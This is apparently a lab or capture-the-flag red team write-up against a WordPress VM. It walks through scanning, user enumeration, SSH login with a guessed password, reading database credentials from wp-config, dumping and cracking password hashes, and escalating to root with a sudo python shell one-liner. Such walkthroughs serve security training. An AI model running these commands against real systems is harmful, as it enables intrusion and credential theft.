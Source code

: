 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1

  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Flag1: b9bbcb33ellb80be759c4e844862482d
 - **Exploits Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
      - Used Brute Force to guess Michael’s password
 - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u

![redteam2](https://user-images.githubusercontent.com/91024338/143157109-f730c529-0fa3-4934-8e58-291f6b2721f3.JPG)
![redteam3](https://user-images.githubusercontent.com/91024338/143157142-49c0c5f1-e7e1-4bc6-9784-072e6d685ee6.JPG)
![redteam4](https://user-images.githubusercontent.com/91024338/143157159-d5dc97d7-2bb9-4106-9649-ce2bd54a666b.JPG)
![redteam5](https://user-images.githubusercontent.com/91024338/143157180-25422c20-6bb0-4bdb-8500-d297f4d7c77b.JPG)



 - Commands:
      - password:michael
      - ssh in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 

![redteam6](https://user-images.githubusercontent.com/91024338/143157402-7ddab105-f4dc-48ea-9d14-77bf279cd6b9.JPG)
![redteam7](https://user-images.githubusercontent.com/91024338/143157412-0322b2b3-9699-4138-88ee-9061cc2c84ea.JPG)
![redteam8](https://user-images.githubusercontent.com/91024338/143157425-b9a86fe8-902b-416e-9068-45047c6628fe.JPG)


 
 - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
 - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
      - Used password from previous Brute Force
      - Password: michael
 - Commands:     
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
            
![redteam9](https://user-images.githubusercontent.com/91024338/143157461-5f80f5d5-3ed2-4d53-9237-b3a63c09179b.JPG)
      
      
- Flag3:afc01ab56b50591e7dccf93122770cd2

**Exploits Used**
     -Same exploits used to gain Flag 1 and 2:
        - Accessing MySQL Database
- Commands:
	- cd /var/www/html/wordpress
	- cat wp_config.php
	- mysql -u root -p’R@v3nSecurity’ 
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_posts;

![redteam10](https://user-images.githubusercontent.com/91024338/143157686-13ad1e0a-309f-433e-b0fe-e992eedce83a.JPG)
![redteam11](https://user-images.githubusercontent.com/91024338/143157712-ba16df30-7895-4d8c-a329-1f761bba46b2.JPG)
![redteam12](https://user-images.githubusercontent.com/91024338/143157739-a0724fed-e838-45b7-ac73-ededead52c1e.JPG)
![redteam13](https://user-images.githubusercontent.com/91024338/143157753-940e3539-dd53-415b-9027-df1ea24d8cd2.JPG)




 
 
- Flag4:715dea6c055b9fe3337544932f2941ce
-**Exploits used**
     - Used MySQL database to gain access to user credentials.
     - Used John the Ripper to crack the password hash.
     - Used Python to gain root privileges.
     - User credentials are stored in the ‘wp_users table’ in the wordpress database.
     - I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
- Commands:
	- mysql -u root -p’R@v3nSecurity’ 
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_users;

![redteam14](https://user-images.githubusercontent.com/91024338/143157919-218bf1ae-63f2-4b22-80a1-ac2fc98b7226.JPG)

 
 - Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 
![redteam15](https://user-images.githubusercontent.com/91024338/143158223-3eea04ea-f1bb-4539-ac76-f2fd9583a468.JPG)
![redteam16](https://user-images.githubusercontent.com/91024338/143158252-026f0a7d-8737-418b-af1f-fd98361847e2.JPG)


 
 - Results: 
        - Steven’s password: pink84
 
 - After I cracked Steven’s password I SSH as Steven, checked for root privileges and escalated to root with Python.
 - Commands:
	- ssh steven@192.168.1.110
	- password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

![redteam17](https://user-images.githubusercontent.com/91024338/143158406-09a79c6d-99e1-4246-95fa-82b1abd1b3f1.JPG)
![redteam18](https://user-images.githubusercontent.com/91024338/143158420-fe0269f5-e475-41ad-b374-4b1e0d07e08b.JPG)
![redteam19](https://user-images.githubusercontent.com/91024338/143158438-ac7b1fac-acd6-48ea-ac5b-aa9e31184597.JPG)

 

 

